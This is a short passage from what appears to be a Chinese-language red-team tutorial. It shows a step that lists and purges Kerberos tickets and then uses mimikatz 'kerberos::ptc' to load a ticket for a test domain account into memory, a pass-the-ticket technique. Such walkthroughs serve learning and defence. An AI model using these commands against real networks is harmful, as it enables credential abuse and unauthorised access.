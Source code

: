 ![](img/25.png)

4. 生成凭证

![](img/26.png)

```bash
# 获取当前主机票证
shell klist

# 然后清除票证
shell klist purge

# 使用mimikatz将生成的票证导入到内存中
mimikatz kerberos::ptc TGT_test1@test.com.ccache
```
